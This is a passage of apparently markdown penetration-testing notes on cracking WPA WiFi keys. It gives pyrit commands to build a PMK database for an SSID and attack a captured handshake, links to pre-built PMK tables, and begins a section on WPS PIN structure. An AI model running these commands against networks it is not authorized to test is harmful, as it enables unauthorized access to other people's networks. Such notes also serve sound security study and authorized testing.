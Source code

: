 Now to generate the PMKs, we must provide pyrit with at least one SSID:
```
pyrit -e <SSID> create_essid
```

Launch the batch command:
```
pyrit batch
```

// At this point, pyrit will start buliding your database For the included SSIDs and password combinations.
// Database generation could be a very long process, depending on the power of your CPU.


Launch the attack against the handshake:
```
pyrit -r <.cap file> attack_db
```

// pyrit will try all of the different PMKs in its database very quickly and will eventually output the found key if it was initially in your wordlist.
// Almost 10 times faster than aircrack


### Pre-built hash files
- You can find pre-built PMKs databases For the most common SSID names.
- Church of WiFi = http://www.renderlab.net/projects/WPA-tables/

```
172k words x 1000 SSIDs, 7GB
1mi words x 1000  SSIDs, 33GB
```

- If you are lucky you could also find spliced portions of these databases, related to a single SSID, by searching the web with Google or asking in network security forums. 

Search:
```
"<SSID> rainbow table" or "<SSID> PMK database"
```


## Wireless Protected Setup (WPS)

Setup alternative methods:
```
Push-Button-Connect
Internal-Registrar
External-Registrar
```

WPS PIN number:
```
1st half of PIN / 2nd half of PIN
// its divided into two halves of 4 digits each. THe last digit of the second half is a checksum meaning its always calculated from the other digits
```
